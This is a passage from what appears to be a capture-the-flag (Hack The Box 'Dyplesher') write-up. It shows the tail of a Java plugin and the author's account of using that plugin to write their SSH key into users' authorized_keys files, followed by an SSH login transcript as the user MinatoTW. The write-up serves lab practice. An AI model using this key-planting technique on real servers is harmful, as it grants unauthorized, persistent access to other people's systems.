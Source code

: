 ```java
            e.printStackTrace();
        }
    }

    @Override
    public void onDisable() {

    }
}
```

I used the java plugin to write my key to the authorized\_keys file of each user, first in `/home/MinatoTW/.ssh`.  After loading my plugin on the site I tried to log in through SSH.

## Initial Foothold

### Enumeration as `MinatoTW`

```text
┌──(zweilos㉿kali)-[~/htb/dyplesher]
└─$ ssh -i minato.key MinatoTW@dyplesher.htb 
The authenticity of host 'dyplesher.htb (10.10.10.190)' can't be established.
ECDSA key fingerprint is SHA256:8AtWtgBblX2fSG+yy8gqhogbr3lHiMCppbBkL1YY/Cg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'dyplesher.htb,10.10.10.190' (ECDSA) to the list of known hosts.

Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 11 Oct 2020 08:11:30 PM UTC

  System load:  0.2               Processes:              238
  Usage of /:   6.9% of 97.93GB   Users logged in:        0
  Memory usage: 39%               IP address for ens33:   10.10.10.190
  Swap usage:   0%                IP address for docker0: 172.17.0.1


57 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings


Last login: Sun Oct 11 20:08:40 2020 from 10.10.14.216
MinatoTW@dyplesher:~$ id && hostname
uid=1001(MinatoTW) gid=1001(MinatoTW) groups=1001(MinatoTW),122(wireshark)
dyplesher
```
